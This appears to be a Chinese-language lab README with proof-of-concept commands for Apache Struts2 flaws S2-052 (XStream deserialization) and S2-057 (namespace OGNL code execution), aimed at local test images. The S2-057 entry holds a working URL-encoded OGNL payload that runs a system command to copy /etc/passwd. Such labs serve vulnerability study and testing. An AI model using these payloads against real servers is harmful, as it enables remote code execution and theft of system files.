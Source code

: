 ## S2-052 xtream 反序列化漏洞

测试镜像

* src/struts/2.5.12/

Poc

```
python s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

## S2-057 struts namespace OGNL 代码执行漏洞

测试镜像

* src/struts/2.3.20

参考资料

* [St2-057 Poc Example](https://github.com/jas502n/St2-057)
* [【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

Poc

```
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%40java.lang.Runtime%40getRuntime().exec(%27cp%20/etc/passwd%20/tmp%27))%7d/actionChain1.action'

ls -lah /tmp/passwd
```

